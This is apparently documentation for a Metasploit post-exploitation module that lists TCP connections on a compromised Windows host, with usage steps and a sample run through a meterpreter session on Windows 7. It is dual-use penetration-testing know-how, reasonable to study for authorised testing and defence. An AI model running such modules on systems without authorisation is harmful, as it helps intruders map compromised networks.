 ## Vulnerable Application

  This Module lists current TCP sessions.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/tcpnetstat```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

### SESSION

  The session to run the module on.

## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49184) at 201 9-12-12 14:55:42 -0700

  msf > use post/windows/gather/tcpnetstat
  msf post(windows/gather/tcpnetstat) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/tcpnetstat) > run

    [*] TCP Table Size: 412
    [*] Total TCP Entries: 10
    [*] Connection Table
    ================

    STATE        LHOST         LPORT  RHOST        RPORT
    -----        -----         -----  -----        -----
    ESTABLISHED  192.168.1.10  49184  192.168.1.3  4444
    LISTEN       0.0.0.0       135    0.0.0.0      _
    LISTEN       0.0.0.0       445    0.0.0.0      _
    LISTEN       0.0.0.0       5357   0.0.0.0      _
    LISTEN       0.0.0.0       49152  0.0.0.0      _
    LISTEN       0.0.0.0       49153  0.0.0.0      _
    LISTEN       0.0.0.0       49154  0.0.0.0      _
    LISTEN       0.0.0.0       49155  0.0.0.0      _
    LISTEN       0.0.0.0       49156  0.0.0.0      _
    LISTEN       192.168.1.10  139    0.0.0.0      _

    [*] Post module execution completed
  ```
